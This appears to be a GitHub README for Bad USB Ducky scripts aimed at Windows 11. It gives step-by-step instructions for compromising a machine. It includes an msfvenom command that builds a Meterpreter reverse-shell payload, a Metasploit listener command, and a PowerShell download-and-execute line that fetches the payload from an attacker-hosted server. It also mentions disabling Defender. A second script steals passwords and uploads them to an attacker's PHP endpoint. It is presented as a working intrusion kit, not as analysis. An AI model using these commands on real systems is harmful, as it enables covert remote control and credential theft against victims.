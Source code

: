 # **Various Ducky scripts for Bad USBs**
#### **Tested and working on WIndows 11**

## **Steps to Compromise(StealthReverseShell.txt):** <br>
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
[![Click Me](https://img.youtube.com/vi/5RGWCgTj9_g/0.jpg)](https://www.youtube.com/watch?v=5RGWCgTj9_g)

## **Steps to Compromise(PassGrab.txt):** <br>
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
1. Setup the web server.<br/> 
2. Replace the domain name with your own.<br/>
3. Setup php file to accept incoming upload requests.<br/>

## Demonstration Video 
[![Click Me](https://img.youtube.com/vi/IceMkFfI4fo/0.jpg)](https://www.youtube.com/watch?v=IceMkFfI4fo)
